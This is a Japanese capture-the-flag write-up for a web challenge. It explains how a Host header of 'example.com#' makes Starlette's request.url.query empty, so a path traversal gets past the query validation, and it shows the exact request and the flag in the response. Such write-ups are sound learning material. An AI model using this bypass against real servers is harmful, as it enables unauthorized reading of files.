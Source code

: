 ```python
        contents = f.readlines()
        f.close()

        context['filename'] = filename
        context['contents'] = contents

    except:
        pass

    return templates.TemplateResponse('/view/view.html', context)
```

`/view`のエンドポイントで、`path`の値が`./memo/flag`相当のパスになるようなリクエストを送れたらフラグファイルが見れる。ただし、クエリのバリデーションがあるせいで簡単にはpath traversalができないようになっている。

バリデーションに`request.url.query`と`request.query_params`の2種類を使っているのが怪しい。

`request.url.query`の実装を見てみると、`HOST`ヘッダを参照してURLを解釈していることがわかった:

- `request.host`: https://github.com/encode/starlette/blob/0.16.0/starlette/requests.py#L88
    - `URL`クラスを使用している。
- `URL`クラス: https://github.com/encode/starlette/blob/0.16.0/starlette/datastructures.py#L31-L47
    - 一度URLをパースしたあと、`HOST`ヘッダが存在すればその値にホストを書き換えてURLを再構成し、再びパースする。

よって、リクエストに`Host: example.com#`のヘッダを付けるとURLのドメイン以降がすべてフラグメントとして解釈されて`request.url.query`が空文字列になる。

一方で、`request.query_params`は`HOST`ヘッダに左右されないのでこの実装の差異を用いてbypassが可能。あとはpath traversalをするだけ。


### 攻撃

以下のようなリクエストを投げるとOK。


```sh
$ http "http://34.146.195.115/view?9dd4e461268c8034f5c8564e155c67a6=flag&%2F.." Host:"example.com#"
HTTP/1.1 200 OK
content-length: 683
content-type: text/html; charset=utf-8
date: Sat, 26 Mar 2022 18:07:05 GMT
server: uvicorn

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <script type="text/javascript" src="/memo.js"></script>
    <script type="text/javascript" src="/jquery.min.js"></script>
    <link rel="stylesheet" type="text/css" href="/static/memo.css">

    <title>Simple Memo</title>
</head>
<body>
    <div class="main">
        <p>
            <span>flag</span><br/>
            <input type="button" id="memo-button" value="BACK" onclick="history.back()"/><br/>
            <span id="memo-box">


                    LINECTF{The_old_bug_on_urllib_parse_qsl_fixed}

            </span>
        </p>
    </div>
</body>
</html>
```

[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。
[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。